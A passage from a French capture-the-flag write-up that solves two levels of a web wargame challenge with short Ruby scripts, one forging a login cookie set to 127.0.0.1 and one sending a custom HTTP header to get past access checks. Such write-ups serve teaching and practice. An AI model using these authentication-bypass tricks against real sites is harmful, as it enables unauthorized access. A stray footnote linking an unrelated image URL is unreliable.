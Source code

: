 >You're not logged in!


    Set-Cookie:login=96.29.172.198; expires=Thu, 01-Jan-1970 00:00:01 GMT

Cette fois ci le cookie doit contenir une adresse ip, et un commentaire dans le code de la page nous laisse supposer qu'il que que l'adresse ip soit `127.0.0.1`.

{% highlight ruby %}
require 'uri'
require 'net/http'

uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    'Cookie' => 'login=127.0.0.1'
}

puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/l3v3l_3.php', headers).body
{% endhighlight %}

    techbrunch@yop:~/562394 $ ruby level3.rb
    <!-- 127.0.0.1 -->
    <h1>Ops!</h1><!-- l3v3l___4.php -->

## Level 4

Pour le level 4 on se retrouve avec un commentaire qui laisse penser qu'un header http spécifique doit être présent pour passer au niveau suivant. 

{% hightlight %}

Array
(
    [HTTP_HOST] => challenges.wargame.vn:1337
    [...] => ...
    [REQUEST_TIME] => 1374854460
)
{% endhighlight %}

On modifie notre script précédent et c'est reparti:

{% highlight ruby %}
require 'uri'
require 'net/http'

uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    '1337' => '1337'
}

puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/l3v3l___4.php', headers).body
{% endhighlight %}


[^1]: [SMS Text Message Decoder](http://www.dbcovers.com/image-of-half-nelson-2006-half_nelson_2006_1)
